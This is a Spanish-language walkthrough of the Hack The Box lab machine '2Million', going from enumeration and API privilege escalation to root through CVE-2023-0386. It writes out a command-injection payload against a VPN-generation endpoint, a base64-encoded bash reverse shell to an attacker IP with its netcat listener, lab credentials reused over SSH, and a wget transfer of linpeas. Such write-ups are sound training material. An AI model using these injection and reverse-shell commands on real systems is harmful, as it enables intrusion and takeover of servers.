






# Reporte de la máquina "2Million"

## Enumeracion inicial

El primer paso que vamos a tomar en este pentesting de caja negra en el que solo se nos proporciona una direccion IP es realizar un scaneo a los puertos más populares con la herramienta nmap:

```nmap
nmap -Pn --disable-arp-ping 10.10.11.221
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-11 16:44 CEST
Nmap scan report for 10.10.11.221 (10.10.11.221)
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 19.20 seconds
```

El escaneo revela los puertos 22 y 80 abiertos por lo que vamos a proceder a inspeccionar la página web hosteada por este servidor:
Al introducir la IP directamente en el buscador obtendremos un error por lo que modificaremos el archivo `/etc/hosts` en nuestra máquina para añadir el dominio del servidor junto con su IP.

**2million.htb/**


Enumerando la página manualmente encontramos dos páginas interesantes:

**2million.htb/login**


**2million.htb/invite**


Segun lo que pone en la propia página un usuario con un codigo de invitación puede registrar un usuario en la web para así acceder a su usuario a través de la página de inicio de sesión.

En el codigo fuente de la página de invitación vemos como funciona el sistema de validación de los códigos de invitación. Este script envía el codigo de invitación suministrado a un servidor a través de una API para validarlo.

```html
<...SNIP...>
<!-- scripts -->
    <script src="/js/htb-frontend.min.js"></script>
    <script defer src="/js/inviteapi.min.js"></script>
    <script defer>
        $(document).ready(function() {
            $('#verifyForm').submit(function(e) {
                e.preventDefault();

                var code = $('#code').val();
                var formData = { "code": code };

                $.ajax({
                    type: "POST",
                    dataType: "json",
                    data: formData,
                    url: '/api/v1/invite/verify',
                    success: function(response) {
                        if (response[0] === 200 && response.success === 1 && response.data.message === "Invite code is valid!") {
                            // Store the invite code in localStorage
                            localStorage.setItem('inviteCode', code);

                            window.location.href = '/register';
                        } else {
                            alert("Invalid invite code. Please try again.");
                        }
                    },
                    error: function(response) {
                        alert("An error occurred. Please try again.");
                    }
                });
            });
        });
    </script>
<...SNIP...>
```

Vamos a centrarnos en este script: `/js/inviteapi.min.js`

```javascript
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{}))
```

Este codigo javascript está claramente ofuscado por lo que si queremos ver que funcionalidad tiene tendremos que deofuscarlo. La técnica utilizada para ofuscar el codigo es el "empaquetamiento". Una herramienta de ofuscación de "empaquetamiento" normalmente intenta convertir todas las palabras y símbolos del código en una lista o un diccionario y luego hacer referencia a ellos utilizando la función **(p,a,c,k,e,d)** para reconstruir el código original durante la ejecución. La función **(p,a,c,k,e,d)** puede ser diferente de un empaquetador a otro. Sin embargo, suele contener un orden determinado en el que se empaquetaron las palabras y símbolos del código original para saber cómo ordenarlos durante la ejecución.

Podemos utilizar la siguiente [web](https://matthewfl.com/unPacker.html) para deofuscar nuestro codigo y así poder entender su funcionalidad.

```javascript
function verifyInviteCode(code)
	{
	var formData=
		{
		"code":code
	};
	$.ajax(
		{
		type:"POST",dataType:"json",data:formData,url:'/api/v1/invite/verify',success:function(response)
			{
			console.log(response)
		}
		,error:function(response)
			{
			console.log(response)
		}
	}
	)
}
function makeInviteCode()
	{
	$.ajax(
		{
		type:"POST",dataType:"json",url:'/api/v1/invite/how/to/generate',success:function(response)
			{
			console.log(response)
		}
		,error:function(response)
			{
			console.log(response)
		}
	}
	)
}
```

En este codigo hay definidas dos funciones las cuales hacen un **POST request** a una API para verificar y para pedir instrucciones sobre como generar un codigo de invitación respectivamente. Con esta información podemos intentar obtener las instrucciones para generar un código de invitación.

Vamos a utilizar **BurpSuite** para mandar un **POST request** para obtener las intrucciones.


Nos da una cadena de texto encriptada y el método de encriptación **ROT13** por lo que con una herrmienta online cualquiera podemos desencriptar el mensaje.

*In order to generate the invite code, make a POST request to \/api\/v1\/invite\/generate*


Enviando un **POST request** de la misma forma que antes obtenemos un código de invitacion codificado en base64: **T1UwRzAtMlZMNjYtQUNWVkMtNFpDNjE= ---decodificamos---> OU0G0-2VL66-ACVVC-4ZC61**. 

La forma en que se generan los codigos diría que viene dada por el script `/js/htb-frontend.min.js` que veiamos en el codigo fuente de la página, pero es mucho más extenso y está mucho mas ofuscado que el otro script que hemos analizado.

Al introducir el código nos registramos con unos datos cualesquiera (es importante no introducir nunca información personal nuestra ni de nadie en un pentest)



Una vez registrado nos redirigimos a **2million.htb/home**. Inspeccionando manualmente el nuevo contenido encontramos otro script muy ofuscado `/js/htb-backend.min.js` que tomaría demasiado tiempo intentar deofuscarlo. Lo único interesante a lo que tenemos acceso es **2million.htb/access/** que como explica la propia página sirve para descargarse un archivo **.ovpn**


Si le damos a alguno de los dos botones la página hará un request a `/api/v1/user/vpn/generate` o `/api/v1/user/vpn/regenerate` respectivamente. Vamos a intentar enumerar la API en busca de posibles endpoints que esten disponibles.

```json
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

Con esta información vamos a probar a ver que hacen los **enpoints** de interés:
 - `/api/v1/user/auth`: Al manfar un **GET request** nos devuelve la siguiente informacion: `{"loggedin":true,"username":"notHacker","is_admin":0}` Por lo que parece que si conseguimos poner el parametro `is_admin` a 1 tendremos privilegios de administrador.
 - `/api/v1/admin/auth`: Simplemente nos devuelve false, probablemente porque el valor de `is_admin` es 0 para nuestro usuario
 - `/api/v1/admin/settings/update`: Si mandamos un **PUT request** podemos modificar los parametros de nuestro usuario.

Procedemos a cambiar el valor de `is_admin` a 1.

  
  
  

Ahora tenemos acceso al enpoint `/api/v1/admin/vpn/generate`, el cual al hacer un **POST request** nos devuelve un certificado de VPN (un archivo **.ovpn**). 

```
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: PHPSESSID=94qe95lsf2fc2gnfop81fnnelp
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 25

{
    "username":"test"
}
```

## Foothold

Si esta VPN está siendo generada a través de la función `exec` o `system` PHP y no hay filtrado insuficiente de nuestro input, lo cual es posible ya que esta es una función sólo administrativa, podría ser posible inyectar código malicioso en el campo de nombre de usuario y obtener la ejecución de comandos en el sistema remoto.

```bash
curl --path-as-is -i -s -k -X $'POST' -H $'Host: 2million.htb' -H $'Content-Type: application/json' -b $'PHPSESSID=94qe95lsf2fc2gnfop81fnnelp' --data-binary $'{\"username\":\"test;id;\"\x0d\x0a}\x0d\x0a\x0d\x0a' $'http://2million.htb/api/v1/admin/vpn/generate'
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 11 Aug 2024 17:04:40 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

Efectivamente la API es vulnerable a una ejecucion de codigo remoto con un usuario administrador. En este punto podemos obetner una **reverse shell**

- Por un lado:
```
curl --path-as-is -i -s -k -X $'POST' -H $'Host: 2million.htb' -H $'Content-Type: application/json' -b $'PHPSESSID=94qe95lsf2fc2gnfop81fnnelp' --data-binary $'{\"username\":\"test;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41Ni80NDQ0IDA+JjE= | base64 -d | bash;\"\x0d\x0a}\x0d\x0a\x0d\x0a' $'http://2million.htb/api/v1/admin/vpn/generate'
```
- Por otro lado:
```
nc -lvnp 4444

listening on [any] 4444 ...
connect to [10.10.16.56] from (UNKNOWN) [10.10.11.221] 44736
bash: cannot set terminal process group (1193): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$
```

Vemos que hemos obtenido una shell como esperabamos. Lo que debemos hacer ahora es enumerar el sistema con el objetivo de obtener un usuario con más privilegios ya que nuestro usuario acutal: `www-data` no puede hacer mucho.

Lo habitual en estos casos es inspeccionar el codigo de la página web en busca de credenciales normalmente las del usuario que gestiona la base de datos de web y esperar que esas credenciales sean las de algún usuario del sistema.

En este caso al inspeccionar `index.php` nos encontramos con el siguiente codigo:

```php
<...SNIP...>
$dbHost = $envVariables['DB_HOST'];
$dbName = $envVariables['DB_DATABASE'];
$dbUser = $envVariables['DB_USERNAME'];
$dbPass = $envVariables['DB_PASSWORD'];


$database = new Database($dbHost, $dbUser, $dbPass, $dbName);
$database->connect();
<...SNIP...>
```

Que lo que hace es obtener el usuario de la base de datos, su contraseña y demás información de unas variables de entorno.  

Si listamos los contenidos del directorio incluido los contenidos ocultmos encontramos el archivo con las variables:

```bash
www-data@2million:~/html$ ls -la

total 56
drwxr-xr-x 10 root root 4096 Aug 11 17:40 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Aug 11 17:40 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
```

Y al inspeccionar su contenido obtenemos las siguientes credenciales:

DB_HOST=127.0.0.1  
DB_DATABASE=htb_prod  
DB_USERNAME=admin  
DB_PASSWORD=SuperDuperPass123

Nos conectamos utilizando el programa SSH, que justamente utiliza el protocolo SSH, con el usuario admin y su contraseña con el comando: `ssh admin@2million.htb`

Ahora nuestro objetivo es obtener un usuario con privilegios de **root**. Lo primero que hacemos es ver que programas podemos correr como **sudo** con el comando `sudo -l`. Desafortunadamente no podemos ejecutar ningún comando como **sudo**. Vamos a usar **linpeas.sh** para encontrar vectores de ataque disponibles en el sistema.

Para transferir el archivo **linpeas.sh** desde nuestra maquina hasta la victima vamos a estableceer un servidor http con `python3 -m http.server 80` en nuestra maquina atacante y vamos a user el comando `wget` en la víctima. 

Observamos que el usuario **admin** tiene correos, quizás allí encontremos algo interesante. 

```
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

Este es el mensaje que encontramos el cual advierte de una vulnerabilidad del kernel de linux de la que están preocupados, vamos a intentar utilizarla.

Con una busqueda rápida en google vemos que la vulnerabilidad a la que se refiere es al CVE-2023-0386. En está [página](https://www.vicarius.io/vsociety/posts/cve-2023-0386-a-linux-kernel-bug-in-overlayfs) lo explican bastante bien.

Nos descargamos el repositorio de github y lo transferimos a la máquina victima igual que antes y al ejecutarlo siguiendo las instrucciones obtenemos una shell como usuario root.

